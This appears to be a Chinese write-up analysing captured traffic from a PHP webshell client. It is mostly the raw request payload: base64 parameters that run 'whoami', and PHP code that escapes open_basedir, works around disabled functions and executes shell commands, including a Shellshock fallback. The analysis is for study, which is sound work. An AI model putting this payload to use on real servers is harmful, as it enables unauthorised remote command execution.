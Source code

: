     f72002fb14c8e8 = SEY2QgL2QgIkM6L3BocHN0dWR5X3Byby9XV1cveWpmeiImd2hvYW1pJmVjaG8gOGIyMjZlNDQmY2QmZWNobyA5ZGI3Zjg4Yzg3 & lefdf77c8e3d95 = yBY21k & pota123 = @ini_set("display_errors", "0");@set_time_limit(0);$opdir = @ini_get("open_basedir");if ($opdir) {    $oparr = preg_split("/\\\\|\//", $opdir);    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);    $tmdir = ".5062e111e";@    mkdir($tmdir);@    chdir($tmdir);@    ini_set("open_basedir", "..");    for ($i = 0; $i < sizeof($oparr); $i++) {@        chdir("..");    }@    ini_set("open_basedir", "/");@    rmdir($ocwd.        "/".$tmdir);};function asenc($out) {    return $out;};function asoutput() {    $output = ob_get_contents();    ob_end_clean();    echo "6d29".    "1125";    echo@ asenc($output);    echo "699".    "aa2b";}ob_start();try {    $p = base64_decode(substr($_POST["lefdf77c8e3d95"], 2));    $s = base64_decode(substr($_POST["f72002fb14c8e8"], 2));    $envstr = @base64_decode(substr($_POST["w641c9ee55f10c"], 2));    $d = dirname($_SERVER["SCRIPT_FILENAME"]);    $c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";    if (substr($d, 0, 1) == "/") {@        putenv("PATH=".getenv("PATH").            ":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");    } else {@        putenv("PATH=".getenv("PATH").            ";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");    } if (!empty($envstr)) {        $envarr = explode("|||asline|||", $envstr);        foreach($envarr as $v) {            if (!empty($v)) {@                putenv(str_replace("|||askey|||", "=", $v));            }        }    }    $r = "{$p} {$c}";    function fe($f) {        $d = explode(",", @ini_get("disable_functions"));        if (empty($d)) {            $d = array();        } else {            $d = array_map('trim', array_map('strtolower', $d));        }        return (function_exists($f) && is_callable($f) && !in_array($f, $d));    };    function runshellshock($d, $c) {        if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {            if (strstr(readlink("/bin/sh"), "bash") != FALSE) {                $tmp = tempnam(sys_get_temp_dir(), 'as');                putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");                if (fe('error_log')) {                    error_log("a", 1);                } else {                    mail("a@127.0.0.1", "", "", "-bv");                }            } else {                return False;            }            $output = @file_get_contents($tmp);@            unlink($tmp);            if ($output != "") {                print($output);                return True;            }        }        return False;    };    function runcmd($c) {        $ret = 0;        $d = dirname($_SERVER["SCRIPT_FILENAME"]);        if (fe('system')) {@            system($c, $ret);        }        elseif(fe('passthru')) {@            passthru($c, $ret);        }        elseif(fe('shell_exec')) {            print(@shell_exec($c));        }        elseif(fe('exec')) {@            exec($c, $o, $ret);            print(join("", $o));        }        elseif(fe('popen')) {            $fp = @popen($c, 'r');            while (!@feof($fp)) {                print(@fgets($fp, 2048));            }@            pclose($fp);        }        elseif(fe('proc_open')) {            $p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);            while (!@feof($io[1])) {                print(@fgets($io[1], 2048));            }            while (!@feof($io[2])) {                print(@fgets($io[2], 2048));            }@            fclose($io[1]);@            fclose($io[2]);@            proc_close($p);        }        elseif(fe('antsystem')) {@            antsystem($c);        }        elseif(runshellshock($d, $c)) {            return $ret;        }        elseif(substr($d, 0, 1) != "/" && @class_exists("COM")) {            $w = new COM('WScript.shell');            $e = $w - > exec($c);            $so = $e - > StdOut();            $ret. = $so - > ReadAll();            $se = $e - > StdErr();            $ret. = $se - > ReadAll();            print($ret);        } else {            $ret = 127;        }        return $ret;    };    $ret = @runcmd($r.        " 2>&1");    print($ret != 0) ? "ret={$ret}" : "";;} catch (Exception $e) {    echo "ERROR://".$e - > getMessage();};asoutput();die(); & w641c9ee55f10c = Ut

       通过数据包的请求和响应我们取出最关键的两处。

![]()![]()

       通过初步分析我们得知一个信息，请求内容的核心代码位置存在关键的变量引用，这点开始引起了我的重视。（最后分析过全部功能后，把这块弄明白可以解决全部功能的问题）
